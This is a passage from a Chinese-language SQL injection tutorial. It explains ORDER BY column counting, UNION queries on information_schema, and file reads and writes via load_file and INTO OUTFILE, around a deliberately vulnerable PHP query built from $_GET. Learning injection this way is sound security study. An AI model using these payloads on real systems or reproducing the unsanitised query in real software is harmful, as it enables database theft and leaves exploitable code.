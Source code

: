   ```sql
    SELECT /*!32302 1/0, */ 1 FROM tablename #这种 /*! 注释仅在MySQL中存在
  ```

- `Order by`

  ```SQL
  SELECT column1, column2, ... FROM table_name [WHERE condition] ORDER BY column_name [ASC|DESC];
  # 其中，column1、column2等表示要查询的列名，table_name表示要查询的表名，condition表示查询条件，column_name表示要按照哪一列进行排序，ASC或DESC表示升序或降序排列。可以使用多个列名来进行排序，多个列名之间用逗号分隔。
  # 在SQL注入中我们常用它来判断列数
  SELECT column1, column2 FROM table_name [WHERE condition] ORDER BY 1;# 不报错
  SELECT column1, column2 FROM table_name [WHERE condition] ORDER BY 2;# 不报错
  SELECT column1, column2 FROM table_name [WHERE condition] ORDER BY 3;# 报错
  ```

常用参数：

- `user()`：当前数据库用户
- `database()`：当前数据库名
- `version()`：当前使用的数据库版本
- `@@datadir`：数据库存储数据路径
- `concat()`：联合数据，用于联合两条数据结果。如 `concat(username,0x3a,password)`
- `group_concat()`：和 `concat()` 类似，如 `group_concat(DISTINCT+user,0x3a,password)`，用于把多条数据一次注入出来
- `concat_ws()`：用法类似
- `hex()` 和 `unhex()`：用于 hex 编码解码
- `ASCII()`：返回字符的 ASCII 码值
- `CHAR()`：把整数转换为对应的字符
- `load_file()`：以文本方式读取文件，在 Windows 中，路径设置为 `\\`
- `select xxoo into outfile '路径'`：权限较高时可直接写文件

### 基础注入类型

#### 数字型注入

我们开局举的例子就是一个很典型的数字型注入。

```php
$sql = "SELECT username,password FROM users WHERE id = ".$_GET["id"];
```

我们可用理解为两个部分 原有语句 `SELECT username,password FROM users WHERE id = `和用户输入部分`$_GET["id"]`。

前面我们说到，这种语句一般用于用户输入id来索引查询，所以预期的输入都是数字，所以直接采用的直接拼接的方式，以数字的方式进行查询。

然而，用户的输入因为没有过滤的缘故，不管输入什么都会直接拼接到后面，所以我们可用用下面的步骤逐步得到数据库信息：

- 使用 `Order by` 确定列数，方便后续注入。

  ```SQL
  id = 1 Order by 1;
  id = 1 Order by 2;
  id = 1 Order by 3; # 报错 确定列数为 2 
  ```

- 使用联合查询 `union` 基于 `information_schema` 拿到数据库名

  ```SQL
  1 union SELECT 1,schema_name FROM information_schema.schemata;
  # or
  1 union SELECT schema_name,2 FROM information_schema.schemata;
  # 注意这里的 schema_name 一定要放在会显示的列名上面 比如password不显示 但是username显示 那么就用第二种。
  # 此时后台执行为:
  SELECT username,password FROM users WHERE id = 1 union SELECT 1,schema_name FROM information_schema.schemata;
  ```
